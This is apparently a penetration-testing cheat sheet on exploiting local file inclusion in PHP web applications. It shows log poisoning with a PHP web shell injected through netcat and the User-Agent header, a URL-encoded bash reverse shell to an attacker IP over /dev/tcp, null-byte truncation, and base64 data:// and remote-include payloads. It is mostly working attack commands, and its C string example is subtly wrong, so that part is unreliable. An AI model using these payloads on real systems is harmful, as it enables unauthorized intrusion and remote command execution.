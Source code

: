 ### Contaminating Log Files to LFI
```
1.
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

2. User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
http://10.11.0.22/menu.php?file=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

Windows log path:
C:\xampp\apache\logs\
```
Tricks:
Try also to change / for \  
Try also to remove C:/ 

### Null byte to mark the end of file
```
To write a string in PHP, we simply write
$string = ‘hello’;
Unfortunately, C does not have a string data type. To write a string in C/C++ we must use an array.
Char string[5];
string[0]=’h’;
string[1]=’e’;
string[2]=’l’;
string[3]=’l’;
string[4]=’o’;
string[5]=’\0′;
http://www.bostonwebgroup.com/script.php?file=shell.php%00.dat
```

### PHP wrappers
>When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64 (PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==)

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
>we need to be aware that the data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled

